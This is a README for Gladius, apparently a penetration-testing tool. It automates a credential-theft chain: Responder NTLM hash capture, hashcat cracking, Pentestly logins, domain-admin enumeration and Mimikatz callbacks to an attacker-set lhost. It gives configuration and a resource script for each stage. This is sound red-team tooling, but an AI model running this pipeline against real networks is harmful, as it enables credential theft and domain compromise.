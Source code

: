 ## Responder to Credentials

### Install
```
pip install watchdog
git clone https://git.praetorianlabs.com/thebarbershopper/gladius
```

### Configuration
First things first, have to set our configuration:
```
[Project]
project_path = testing2

[Responder]
hashcat = /root/tools/hashcat/hashcat-cli64.bin
wordlist = /root/tools/hashcat/rockyou.txt
ruleset = /root/tools/hob064.rule
watch_path = /opt/responder/logs

[Pentestly]
nmap = /tmp/gladius.xml

[Recon-ng]
path = /opt/recon-ng/recon-ng

[Mimikatz]
lhost = 10.10.11.156
```

### Start
After setting up configuration, simple start.
```
python2 start.py
```

```
[root@Praetorian-IPTD-4 auto-pentest]# python2 start.py --help
usage: start.py [-h] [-v]

optional arguments:
  -h, --help     show this help message and exit
  -v, --verbose  Increased output verbosity
```

### Start Responder and watch cracked credentials fly by..

### Output

![exmaple.png](example.png)

### Example module

```
class CredsHandler(GladiusHandler):

    patterns = ['*']

    def process(self, event):
        with open(event.src_path, 'r') as f:
            data = f.read().split('\n')

        # Perform work on data
```


Add yourself to the handlers list
```
handlers = [(ResponderHandler, config.get('Responder', 'watch_path')),
            (CredsHandler, ResponderHandler().outpath),
            (PentestlyHandler, CredsHandler().outpath)]
```

### Workings

#### Responder

Watches responder log for `*NTLM*txt` files. For each file found, parses output, creates a temp file containing the new hashes, and passes this to hashcat with the correct hash type

#### Credentials

Watches for output from `hashcat` and exports files with the following format:

```
Domain Username Password
```

#### Pentestly

Watches for sanitized hashcat output and passes credentials to `pentestly` via the following resource script.

```
workspaces add gladius
load nmap
set filename /tmp/gladius.xml
run

load login
set domain DOMAIN
set username USERNAME
set password PASSWORD
run

load get_domain_admin_names
run

load mimikatz
set lhost LHOST
run

load reporting/csv
set filename OUTFILE
set table pentestly_creds
run
```

#### Admin

Watches for output from Pentestly and parses the found credentials for `Local Admin` and new credentials from `Mimikatz`

#### Run Tests

```
python -m unittest discover test
```

